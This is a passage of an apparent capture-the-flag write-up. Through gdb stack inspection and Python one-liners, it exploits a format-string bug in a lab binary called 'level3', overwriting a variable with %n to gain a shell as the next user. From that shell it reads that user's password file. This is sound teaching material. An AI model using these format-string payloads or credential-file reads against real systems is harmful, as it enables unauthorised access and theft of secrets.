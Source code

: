     > (gdb) r
    Starting program: /home/user/level3/level3
    AAAABBBB

    Breakpoint 1, 0xb7e78850 in printf () from /lib/i386-linux-gnu/libc.so.6

    > (gdb) x/16x $sp
    0xbffff4fc:	0x080484da	0xbffff510	0x00000200	0xb7fd1ac0
    0xbffff50c:	0xb7ff37d0	0x41414141	0x42424242	0x0000000a
    0xbffff51c:	0xb7fef305	0xbffff578	0xb7fde2d4	0xb7fde334
    0xbffff52c:	0x00000007	0x00000000	0xb7fde000	0xb7fff53c
    ```

11. Fine, `AAAA = 41414141`, so we have an offset of `4`. Time to update our script.

    ```bash
    > (python -c "print '\x8c\x98\x04\x08'+'%08x%08x%08x%n'") | ./level3
    ```

12. But wait! We have a required value to store (`64`), so we have to fill the gap with anything.

    ```bash
    # CurrentSize = 4 ('\x8c\x98\x04\x08') + 3 * 8 ('%08x%08x%08x') = 28
    # Gap = 64 - 28 = 36
    > (python -c "print '\x8c\x98\x04\x08'+'A'*36+'%08x%08x%08x%n'") | ./level3
    �AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA00000200b7fd1ac0b7ff37d0
    Wait what?!

    # Alternative solution
    # Ignoring 3 parameters using %4$n pattern
    > (python -c "print '\x8c\x98\x04\x08'+'A'*60+'%4\$n'") | ./level3
    ```

13. Target in sight! Let’s capture the flag!

    ```bash
    > (python -c "print '\x8c\x98\x04\x08'+'A'*60+'%4\$n'" ; cat) | ./level3
    �AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA00000200b7fd1ac0b7ff37d0
    Wait what?!
    whoami
    level4
    pwd
    /home/user/level3
    cat /home/user/level4/.pass
    b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
    ```

## Documentation
